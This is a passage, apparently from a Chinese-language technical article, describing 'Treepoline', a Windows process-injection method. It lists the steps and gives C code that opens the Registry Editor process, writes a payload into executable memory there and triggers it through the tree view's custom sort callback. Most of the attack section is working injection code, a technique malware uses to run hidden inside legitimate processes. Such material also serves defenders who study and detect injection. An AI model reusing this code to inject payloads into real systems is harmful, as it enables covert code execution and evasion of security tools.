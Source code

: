 **方法 7：Treepoline**

```
typedef struct tagTVSORTCB {
  HTREEITEM    hParent;
  PFNTVCOMPARE lpfnCompare;
  LPARAM       lParam;
} TVSORTCB, *LPTVSORTCB;
```

可以通过 TVM_SORTCHILDRENCB 消息实现自定义排序。对于每个项目，将会执行 Payload，因此还需要进行额外检查，以避免运行多个实例。在获取 TreeListView 窗口句柄后，我们需要做的第一件事情是获取根项目。在调用回调函数之前，我们就需要其中的一个项目。

具体步骤如下：

1. 获取 treeview 句柄；
2. 获取进程 ID 并尝试打开进程；
3. 分配 RWX 内存，并在该位置复制 Payload；
4. 获取树列表中的根项目；
5. 分配 RW 内存，并复制 TVSORTCB 结构；
6. 触发 Payload；
7. 释放内存并关闭进程句柄。

```
// requires elevated privileges
VOID treepoline(LPVOID payload, DWORD payloadSize) {
    HANDLE        hp;
    DWORD         id;
    HWND          wpw, tlv;
    LPVOID        cs, ds, item;
    SIZE_T        rd, wr;
    TVSORTCB      tvs;
   
    // 1. get the treeview handle
    wpw = FindWindow(L"RegEdit_RegEdit", NULL);
    tlv = FindWindowEx(wpw, 0, L"SysTreeView32", 0);
   
    // 2. Obtain the process id and try to open process
    GetWindowThreadProcessId(tlv, &id);
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);
 
    // 3. Allocate RWX memory and copy the payload there.
    cs = VirtualAllocEx(hp, NULL, payloadSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
       
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
   
    // 4. Obtain the root item in tree list
    item = (LPVOID)SendMessage(tlv, TVM_GETNEXTITEM, TVGN_ROOT, 0);
 
    tvs.hParent     = item;
    tvs.lpfnCompare = cs;
    tvs.lParam      = 0;
   
    // 5. Allocate RW memory and copy the TVSORTCB structure
    ds = VirtualAllocEx(hp, NULL, sizeof(TVSORTCB),
        MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
       
    WriteProcessMemory(hp, ds, &tvs, sizeof(TVSORTCB), &wr);
   
    // 6. Trigger payload
    SendMessage(tlv, TVM_SORTCHILDRENCB, 0, (LPARAM)ds);
 
    // 7. Free memory and close process handle
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
```